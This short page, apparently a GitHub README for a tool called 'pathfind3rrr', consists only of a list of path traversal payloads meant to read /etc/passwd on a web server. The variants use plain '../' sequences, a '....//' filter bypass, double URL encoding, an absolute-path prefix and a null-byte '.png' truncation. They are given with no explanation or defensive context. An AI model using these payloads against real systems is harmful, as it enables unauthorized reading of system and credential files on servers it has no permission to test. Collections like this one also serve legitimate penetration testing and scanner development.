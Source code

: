 # pathfind3rrr


# Payload:
../../../etc/passwd
/etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
/var/www/images/../../../etc/passwd
../../../etc/passwd%00.png
